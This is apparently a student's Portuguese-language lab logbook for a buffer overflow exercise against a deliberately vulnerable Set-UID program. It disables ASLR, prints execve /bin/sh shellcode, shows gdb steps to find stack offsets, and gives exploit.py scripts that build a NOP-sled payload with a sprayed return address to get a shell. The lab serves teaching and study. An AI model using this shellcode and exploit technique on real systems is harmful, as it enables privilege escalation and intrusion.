





# LOGBOOK5 - Buffer Overflow

## Setup

Antes de iniciarmos o guião da semana 5, devemos desligar algumas proteções do sistema operativo (para nos facilitar), tais como a randomização do espaço de endereços e a proibição ao nível da shell de ser executada por processos com Set-UID.

```
sudo sysctl -w kernel.randomize_va_space=0
sudo ln -sf /bin/zsh /bin/sh
```
## Task 1

Primeiramente, executamos o seguinte código :

```c
#include <stdio.h>
int main(){
	char*name[2];
	name[0] = "/bin/sh";
	name[1] = NULL;
	execve(name[0], name, NULL);
}
```

Reparamos que abriu uma shell na mesma pasta onde foi executado o programa.

Depois executamos o call_shellcode.c:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char shellcode[] =
#if __x86_64__"\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e""\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57""\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f""\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31""\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif;
int main(int argc, char**argv){
    char code[500];strcpy(code, shellcode); // Copy the shellcode to the stack
    int (*func)() = (int(*)())code;
    func();                 // Invoke the shellcode from the stack
    return 1;
}
```

Ao executar este ficheiro usando o `make`, reparamos que é criado 2 ficheiros `a32.out a64.out`. Quando executamos qualquer um deles, reparamos que é aberto um shell.

## Task 2

Após analisar o ficheiro stack.c, reparamos que a vulnerabilidade tratava-se do seguinte: a função strcpy é usada para copiar o conteúdo do parâmetro str para o array buffer. No entanto, a função strcpy não tem verificação para garantir que o tamanho da string (que pode ter até um máximo de 517) não exceda o tamanho do buffer (BUF_SIZE = 100). Se o comprimento da stringstr for maior que o tamanho do buffer, irá substituir a memória adjacente, levando a um comportamento inesperado, que neste caso podemos aproveitar para explorar a vulnerabilidade.

Também reparamos que executando o make, é criado vários ficheiro do género stack-Lx , onde x varia entre 1 e 4. A diferença entre estes ficheiros é o valor do BUF_SIZE.



## Task 3

Primeiramente, criamos um ficheiro badfile e executamos o make para criar os ficheiros necessários para fazer debug,e executamos os seguintes comandos:

```
$ touch badfile 
$ gdb stack-L1-dbg 
...
gdb-peda$ b bof 
...
gdb-peda$ run 
...
gdb-peda$ next 
...
gdb-peda$ p $ebp # Obtemos o valor do ebp
$1 = (void *) 0xffffcaf8
gdb-peda$ p &buffer # Obtemos o endereço do início do buffer
$2 = (char (*)[100]) 0xffffca8c
```




Após obtermos os valores necessários, vamos usar o programa python para colocar conteúdo no nosso badfile, mas para tal temos de fazer alterações necessárias para funcionar:

Na variável shellcode vamos meter o valor shellcode de 32-bits que executa uma shell:
```py
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')
```

De seguida, alterou-se o valor do start para guardar o valor do shell code no fim da lista.

```py
start = 400
```

Foi calculado o novo endereço de retorno que aponta para o código do shell a ser executado.

```py
ret    = 0xffffcaf8 + 200
```

Usando os dois endereços obtidos durante o debug, determinou-se a localização do endereço de retorno em relação ao início do array (offset)

```py
offset = 0xffffcaf8 - 0xffffca8c + 4
```

Após executar o ficheiro ./exploit.py e ./stack-L1 conseguimos obter acesso a uma shell com permissões:



## Task 4

Agora neste, a diferença é que não podemos usar o `p $ebp` para descobrir o valor do ebp.

Em primeiro lugar executamos as seguintes instruções no terminal para obter mais informações:

```
$ touch badfile 
$ gdb stack-L2-dbg 
...
gdb-peda$ b bof 
...
gdb-peda$ run 
...
gdb-peda$ next 
...
gdb-peda$ p &buffer # Obtemos o endereço do início do buffer
$2 = (char (*)[100]) 0xffffca8c
```

De seguida modificamos o ficheiro exploit.py:

```py

#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Metemos o shellcode no fim do badfile
content[517 - len(shellcode):] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
# Adicionamos 300 para fazer o salto
ret    = 0xffffca50 + 300         # Change this number  

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

##Brute-force em cada endereço para descobrir o endereço. Como cada endereço tem 4 bytes, fazemos 200/4 = 50
for offset in range(50):
	content[offset*L:offset*4 + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```


Por fim executamos o código:
```
./exploit.py
./stack-L2
```

E obtivemos:


